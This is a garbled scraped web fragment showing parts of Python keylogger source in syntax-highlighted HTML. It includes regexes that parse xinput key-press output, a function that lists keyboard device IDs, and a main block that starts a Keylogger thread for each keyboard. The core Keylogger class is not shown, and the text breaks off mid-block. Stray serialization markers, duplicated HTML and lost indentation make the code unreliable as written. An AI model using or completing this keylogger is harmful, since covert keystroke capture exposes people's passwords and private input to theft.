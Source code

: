 ```yaml
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="python" style="font-family:monospace;">KEYPRESS_REGEX <span style="color: #66cc66;">=</span> <span style="color: #dc143c;">re</span>.<span style="color: #008000;">compile</span><span style="color: black;">&#40;</span>r<span style="color: #483d8b;">'key press +(<span style="color: #000099; font-weight: bold;">\d</span>+)'</span><span style="color: black;">&#41;</span>
    KEYBOARD_REGEX <span style="color: #66cc66;">=</span> <span style="color: #dc143c;">re</span>.<span style="color: #008000;">compile</span><span style="color: black;">&#40;</span>r<span style="color: #483d8b;">'(.*)Keyboard(.*)id=(<span style="color: #000099; font-weight: bold;">\d</span>+)(.*)'</span><span style="color: black;">&#41;</span>
    KEYCODE_REGEX <span style="color: #66cc66;">=</span> <span style="color: #dc143c;">re</span>.<span style="color: #008000;">compile</span><span style="color: black;">&#40;</span>r<span style="color: #483d8b;">'keycode +(<span style="color: #000099; font-weight: bold;">\d</span>+) = (.+)'</span><span style="color: black;">&#41;</span></pre></td></tr></table><p class="theCode" style="display:none;">KEYPRESS_REGEX = re.compile(r'key press +(\d+)')
    KEYBOARD_REGEX = re.compile(r'(.*)Keyboard(.*)id=(\d+)(.*)')
    KEYCODE_REGEX = re.compile(r'keycode +(\d+) = (.+)')</p></div>
    ;i:4;s:2368:
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="python" style="font-family:monospace;"><span style="color: #ff7700;font-weight:bold;">def</span> get_listanables_keyboards<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>:
    stdout <span style="color: #66cc66;">=</span> bash.<span style="color: black;">xinput</span><span style="color: black;">&#40;</span><span style="color: #483d8b;">&quot;list&quot;</span><span style="color: black;">&#41;</span>
    keyboards <span style="color: #66cc66;">=</span> <span style="color: black;">&#91;</span><span style="color: black;">&#93;</span>
    <span style="color: #ff7700;font-weight:bold;">for</span> line <span style="color: #ff7700;font-weight:bold;">in</span> stdout:
    match <span style="color: #66cc66;">=</span> KEYBOARD_REGEX.<span style="color: black;">match</span><span style="color: black;">&#40;</span>line<span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">if</span> match <span style="color: #ff7700;font-weight:bold;">and</span> match.<span style="color: black;">group</span><span style="color: black;">&#40;</span><span style="color: #ff4500;">3</span><span style="color: black;">&#41;</span>.<span style="color: black;">isdigit</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>:
    keyboard <span style="color: #66cc66;">=</span> <span style="color: #008000;">int</span><span style="color: black;">&#40;</span>match.<span style="color: black;">group</span><span style="color: black;">&#40;</span><span style="color: #ff4500;">3</span><span style="color: black;">&#41;</span><span style="color: black;">&#41;</span>
    keyboards.<span style="color: black;">append</span><span style="color: black;">&#40;</span>keyboard<span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">return</span> keyboards</pre></td></tr></table><p class="theCode" style="display:none;">def get_listanables_keyboards():
    stdout = bash.xinput(&quot;list&quot;)
    keyboards = []
    for line in stdout:
    match = KEYBOARD_REGEX.match(line)
    if match and match.group(3).isdigit():
    keyboard = int(match.group(3))
    keyboards.append(keyboard)
    return keyboards</p></div>
    ;i:5;s:1156:
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="python" style="font-family:monospace;"><span style="color: #ff7700;font-weight:bold;">if</span> __name__ <span style="color: #66cc66;">==</span> <span style="color: #483d8b;">'__main__'</span>:
    keyboards <span style="color: #66cc66;">=</span> get_listanables_keyboards<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">for</span> keyboard <span style="color: #ff7700;font-weight:bold;">in</span> keyboards:
    Keylogger<span style="color: black;">&#40;</span>keyboard<span style="color: black;">&#41;</span>.<span style="color: black;">start</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    signal_listener<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span></pre></td></tr></table><p class="theCode" style="display:none;">if __name__ == '__main__':
```